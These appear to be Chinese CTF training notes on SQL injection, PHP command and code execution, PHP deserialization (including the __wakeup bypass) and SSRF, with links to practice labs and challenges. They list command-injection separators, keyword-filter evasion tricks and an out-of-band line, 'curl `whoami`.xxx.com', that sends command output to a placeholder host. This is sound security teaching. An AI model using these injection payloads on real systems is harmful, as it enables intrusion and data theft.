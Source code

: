 ### sql注入原理与进阶
知识点-对应练习:
- 万能密码  http://139.224.43.82:49154/index.php
- 常规sql注入-sqli-labs前俩关
- 报错注入-sqli-labs第五关 [[培训/报错注入]]
- 盲注(布尔盲注,时间盲注) [[培训/盲注脚本]] [[培训/[CISCN 2019华北Day2]Web1]] nssctf
- 堆叠注入-[[培训/强网杯 2019随便注]]
总结:sql语句拼接导致,预编译可直接阻止,但是预编译在order by存在时无法使用,此时只能过滤

练习:sqli-lab靶场
http://ip/sqli-labs/
[[通关流程]]
真题复现:


### php代码执行与命令执行
总结:
命令执行:
```
system()，passthru()，exec()，pcntl_exec()，shell_exec()，popen()/proc_popen()，反引号 ``
```
代码执行:
```
eval()，assert()，call_user_func()，create_function()，array_map()，call_user_func_array()，array_filter()，uasort()，preg_replace()
```
只要上述函数里的变量可控,即有可能存在漏洞

命令执行
```python
; ` & || | $()
#换行
%0A
#回车
%0d
#局部变量
a=l;b=s;$a$b
#curl 外带
curl `whoami`.xxx.com
```

关键词过滤
```python
ca\t fl\ag

```
练习:dvwa

真题复现:
[UUCTF 2022 新生赛]ez_rce [[培训/[UUCTF 2022 新生赛]ez_rce]]
[GXYCTF 2019]Ping Ping Ping nssctf [[培训/pingpingping]]
ctfshow命令执行大挑战
ciscn 2023 dumpit
sekaictf 2023 Scanner Service

### php反序列化综合
序列化示例代码
```php
<?php 
    class test
    {
        private $flag = "flag{233}";
        public $a = "aaa";
        static $b = "bbb";
    }

    $test = new test;
    $data = serialize($test);
    echo $data;
 ?>

```

键:数量:值

反序列化代码
```php
<?php 
    $str = 'O%3A4%3A%22test%22%3A2%3A%7Bs%3A10%3A%22%00test%00flag%22%3Bs%3A9%3A%22flag%7B233%7D%22%3Bs%3A1%3A%22a%22%3Bs%3A3%3A%22aaa%22%3B%7D';
    $data = urldecode($str);
    $obj = unserialize($data);

    var_dump($obj);
 ?>
```

练习:
[SWPUCTF 2021 新生赛]ez_unserialize

魔术方法
```php
__construct()//创建对象时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发
...
```

练习: http://139.224.43.82:49156/

http://36.152.17.3:40024/


#### 进阶:
绕过__wakeup():
> 利用条件：
PHP5 < 5.6.25
​PHP7 < 7.0.10

当序列化字符串中表示对象属性个数的数字值大于真实类中属性的个数时就会跳过__wakeup的执行，
[[[SWPUCTF 2021 新生赛]no_wakeup]]


php反序列化字符串逃逸:

真题:
[[培训/[SWPUCTF 2021 新生赛]pop]]

### ssrf(Server Side Request Forgery)服务端请求伪造
练习靶场
http://110.40.154.212/06/vul/ssrf/ssrf.php
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
真题:
[[培训/[HNCTF 2022 WEEK2]ez_ssrf]]


